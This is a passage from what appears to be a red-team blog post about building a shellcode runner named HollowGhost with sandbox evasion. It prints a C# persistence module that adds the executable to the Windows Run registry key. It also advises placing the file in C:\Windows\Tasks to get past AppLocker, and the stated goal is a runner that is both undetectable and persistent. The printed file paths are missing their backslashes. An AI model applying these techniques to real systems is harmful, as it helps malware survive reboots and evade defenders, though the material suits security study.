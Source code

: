 I know what you may be thinking: “*Why the hell do you need that much sandbox evasion?*”

Well, I don’t, and neither do you.

Eventually, this will be narrowed down to one technique.

Before we test each one, I have a confession to make…

During this point in my testing, I added an extra bit of code for persistence.

My goal at the time was to have this shellcode runner not only undetectable but also persistent.

This later came back to bite me in the ass, and I will show that. 😅

But just so we are all on the same page regarding the detection results, I thought I should tell you.

### Persistence Is Key 🔑

Just as before, I created an external class aptly named **Persistence.cs**:

![](http://loganelliottinfosec.com/wp-content/uploads/2023/10/persistence-cs-ext-class.png)

The code contained in this external class writes to the registry, creating a new registry key value that will cause the HollowGhost.exe file to be executed at startup:

```csharp
using Microsoft.Win32;
using System.IO;
namespace HollowGhost.Modules.Persistence
{
    internal class Persistence
    {
        public static void ExecOnStartup()
        {
            // startup
            // define the path to the file you want to execute on startup
            string filePath = @"C:WindowsTasksHollowGhost.exe";
            // add the file to the registry key to execute on startup
            RegistryKey rk = Registry.CurrentUser.OpenSubKey("SOFTWARE\Microsoft\Windows\CurrentVersion\Run", true);
            rk.SetValue(Path.GetFileNameWithoutExtension(filePath), filePath);
        }
    }
}
 
```

I set the file path to execute the PE file from within “C:WindowsTasks” since this directory is often whitelisted by AppLocker on Windows systems.

Import the namespace in **Program.cs**:

```csharp
using HollowGhost.Modules.Persistence; 
```

I then implemented the call to the **ExecOnStartup()** method.
